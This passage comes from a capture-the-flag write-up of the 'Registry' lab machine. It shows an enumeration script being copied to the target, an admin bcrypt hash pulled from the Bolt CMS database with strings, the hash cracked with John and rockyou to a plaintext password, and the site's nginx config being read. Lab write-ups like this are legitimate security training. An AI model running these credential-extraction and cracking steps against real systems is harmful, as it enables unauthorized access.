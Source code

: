 

With the user access, I run the default linux previlege escalation script [LinEnum](https://github.com/rebootuser/LinEnum), noticed the path for the CMS and started my enumeration there.
After some time, I noticed the db, and decided to run strings on it.

```bash
root@Zakali:~/ROOTED/Registry/User# scp -i id_rsa ~/Tools/public/LinEnum.sh bolt@registry.htb:/tmp 
Enter passphrase for key 'id_rsa': 
LinEnum.sh                                                                                                                                                  100%   45KB  14.2KB/s   00:03    
bolt@bolt:/var/www/html/bolt/app/database$ strings bolt.db   | grep admin
KK��2�/3%=3admin$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PKbolt@registry.htb2019-12-01 05:01:0210.10.14.225Admin["files://webshell.php"]["root","everyone"]
�� admin
��/ bolt@registry.htb
��
3admin$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PKbolt@registry.htb2019-12-01 05:01:0210.10.14.225Admin["files://webshell.php"]["root","everyone"]
 admin
```
We got the CMS admin hash, lets crack it with john and rockyou wordlist.

```bash 
root@Zakali:~/ROOTED/Registry/User/www-data# cat admin-hash 
admin:$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK

root@Zakali:~/Registry/User/www-data# john -w=/usr/share/wordlists/rockyou.txt admin-hash  
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
strawberry       (admin)
1g 0:00:00:07 DONE (2019-12-01 22:34) 0.1367g/s 48.01p/s 48.01c/s 48.01C/s strawberry..lorena
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


Wierdly enough, I was not able to find the admin login page, so I decided to check out the nginx website deployement config.

```bash
bolt@bolt:/etc/nginx$ cat sites-enabled/01.registry.conf 
server {
    listen 80;
    listen [::]:80;
    listen 443 ssl;
    include snippets/self-signed.conf;
    include snippets/ssl-params.conf;

    root /var/www/html;
    index index.php index.html; 

    server_name registry.htb;

    location = /bolt/app/database/bolt.db {
        deny all;
        return 404;
    }

    location = /bolt/bolt {
        try_files               $uri $uri/ /bolt/index.php?$query_string;
    }

    location ^~ /bolt/bolt/ {
        try_files                     $uri /bolt/index.php?$query_string;
```